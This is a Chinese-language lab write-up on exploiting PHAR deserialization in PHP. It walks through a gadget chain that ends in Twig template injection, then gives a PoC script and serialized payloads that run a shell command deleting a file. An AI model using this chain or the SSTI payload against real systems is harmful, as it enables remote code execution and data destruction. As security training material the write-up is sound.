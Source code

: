 ### 使用 phar 文件进行的反序列化

在 PHP 中，即便未显式调用`unserialize()`，也可能利用反序列化漏洞。`phar://`包装器可访问 PHAR 归档文件，其清单包含序列化元数据，当对`phar://`流执行文件系统操作（如`file_exists()`）时，元数据会被隐式反序列化。

攻击条件：

1. 上传伪装成正常文件（如 JPG）的 PHAR 文件，绕过验证；
2. 诱导服务器通过`phar://`流加载该文件，触发元数据反序列化，利用`__wakeup()`或`__destruct()`等魔术方法启动攻击链。

此技术利用文件系统方法对`phar://`流的处理，绕过传统对危险函数的防护。

##### blog.php

```php
<?php

require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php');

class Blog {
    public $user;
    public $desc;
    private $twig;

    public function __construct($user, $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }

    public function __sleep() {
        return ["user", "desc"];
    }
}

?>
```

##### CustomTemplate.php

```php
<?php

class CustomTemplate {
    private $template_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
    }

    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lockFilePath(), "") === false) {
                throw new Exception("Could not write to " . $this->lockFilePath());
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}

?>
```

##### Twig 模板处理流程

1. 定义模板内容：

```php
$loader = new Twig_Loader_Array([
    'index' => $this->desc,
]);
// 新建 index 模板，定义 index 模板内容为 $this->desc 的属性值。

// 将模板保存。
$this->twig = new Twig_Environment($loader);
```

2. render 方法渲染模板。

```php
// 模板被保存到 $this->twig 后，render 方法渲染模板。
public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
}
// 那么模板内容的 user 作为占位符被替换为 $this->user 属性值。
```

假设：

```php
$this->desc = '欢迎，{{ user }}！';
$this->user = 'hello';
// 那么渲染时，$this->user 将被填充到 $this->desc = '欢迎，{{ user }}！';中的 user 占位符。调用 render 后，返回如下内容如下：
// 欢迎，hello！
```

##### SSTI 模板注入

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}

# 如上内容作为模板渲染的内容的话，将直接 rce。
```

##### 反序列化

```
1. blog 对象的 __toString 触发 ssti 渲染 payload。
2. blog 对象的 __construct 让 blog 对象 $desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}'
3. CustomTemplate 对象的 $template_file_path 赋值为一个带有 payload 的 blog 对象。
4. CustomTemplate 对象的 lockFilePath 方法能触发 blog 对象的 __toString。
5. CustomTemplate 对象的 __destruct 方法能触发 lockFilePath。
```

poc：

```
<?php
class CustomTemplate {
    public $template_file_path;
}

class Blog {
    public $user;
    public $desc;
    public $twig;
}

$blog = new Blog();
$blog->user = "user";
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$custom = new CustomTemplate();
$custom->template_file_path = $blog;
echo serialize($custom);
?>

O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":3:{s:4:"user";s:4:"user";s:4:"desc";s:106:"{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}";s:4:"twig";N;}}
```

还得生成 phar 文件，我偷了个懒，官方直接给了一个此靶场的 phar 文件。我直接利用了。官方 phar 文件中的序列化 payload 如下，和我生成的 payload 有细微区别：

```
O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":2:{s:4:"desc";s:106:"{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}";s:4:"user";s:4:"user";}}
```

![image-20250506211718167](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/images/image-20250506211718167.png)



